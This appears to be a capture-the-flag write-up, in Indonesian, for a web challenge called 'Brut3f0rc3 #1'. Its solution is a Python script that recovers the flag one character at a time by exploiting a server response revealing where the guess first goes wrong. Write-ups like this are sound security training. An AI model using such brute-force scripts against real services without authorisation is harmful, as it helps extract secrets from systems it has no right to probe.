 # Challenge Name: Brut3f0rc3 #1

![Category: Website](https://img.shields.io/badge/Category-Website-lightgrey.svg)
![Point: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

Pertama kali Bruteforce pada website ? Dicoba deh ini

## Attached Files

\-

## Solution

disini kita harus mengbrute force flag nya, dengan cara menggunakan file python

```python
import requests
import string
import re

def striphtml(data):
    p = re.compile(r'<.*?>')
    return p.sub('', data)

def generatePayload(index):
    lowerCase = string.ascii_lowercase
    number = string.digits
    simbol = "_"

    gabung = lowerCase + number + simbol
    arr = list(gabung)

    return arr[index]

def request(url, payload, indexError):
    regex = r"<b>(.*?)<\/b>"
    regexSuccess = r"Here is your flag : (.*)"

    r =  requests.get(url + payload)
    data = r.text
    getIndexError = re.findall(regex, data)
    getFlag = re.findall(regexSuccess, data)

    if len(getIndexError) > 0 and int(getIndexError[0]) == indexError:
        return True
    elif len(getFlag) > 0:
        return getFlag[0]
    else:
        return False

def exploit():
    url = "https://web.ctf.rasyidmf.com/chal16/?flag="
    payload = list("CTFR{" + 'a'*30 + "}")

    indexPayload = 0
    indexError = 5

    while True:
        payloadReq = ''.join(payload)
        requestPayload = request(url, payloadReq, indexError)

        if requestPayload:
            indexPayload = indexPayload + 1
            if indexPayload == 37:
                indexPayload = 0
        else:
            indexError = indexError + 1

        payload[indexError] = generatePayload(indexPayload)

        print(f"[~] Trying BruteForce : {payloadReq}", end="\r", flush=True)

        if type(requestPayload) == str:
            print(f"[+] Found Flag : {striphtml(requestPayload)}", end="\n", flush=True)
            break


if __name__ == '__main__':
    exploit()
```

## Screen Shoot

![image1](images/image1.png)
